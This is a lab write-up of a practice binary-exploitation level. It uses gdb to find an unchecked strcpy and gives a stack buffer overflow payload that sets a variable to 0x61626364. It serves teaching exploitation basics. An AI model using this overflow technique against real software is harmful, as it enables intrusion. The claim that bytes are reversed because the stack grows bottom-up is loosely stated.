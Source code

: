 ```sh
```

-   ## EX01

### Objective

This level is completed when you see the “you have correctly got the variable to the right value” message.

### Binary functionality

```sh
./bin
> bin: please specify an argument
# Random argument
./bin 0
> Try again, you got 0x00000000
```

The exploitation process should be pretty much the same as the last exercise, except we have to find the specific value needed and overwrite the bytes with it.

### Process and solution

![img](https://i.imgur.com/GiMUgnI.png)

First `cmp    DWORD PTR [ebp+0x8],0x1` compares something to `1`. After comparison it either continues or prints error message and exits. From that we can assume it checks if program was given enough arguments.

`cmp    eax,0x61626364` comparison is probably the one that checks if the variable value is correct and prints corresponding message. `0x61626364` corresponds to `abcd` so that's what we need to change the variable to.

Also the `strcpy` function which gets called at some point has no bounds checking and can be exploited to get the result we need.

Process:

```sh
gdb bin
# same setup stuff as last ex
# set break point at strcpy
break *0x080484a2
# run with argument (A's so we can see them clearly on a stack)
r AAAAAAAAAAAAAAAA
# we can see the A's on the stack now we need to count how many characters we need for overflow. In this case its 4 + 16 + 16 + 16 + 12 + abcd

# exit back to shell
q
# lets try it out
./bin AAAABBBBBBBBBBBBBBBBCCCCCCCCCCCCCCCCDDDDDDDDDDDDDDDDEEEEEEEEEEEEdcba
# or
./bin $(python -c 'print "A"*(4+16*3+12)+"dcba"')

> "you have correctly got the variable to the right value"
# FYI: we write the abcd backwards because stack is created from the bottom up.
```

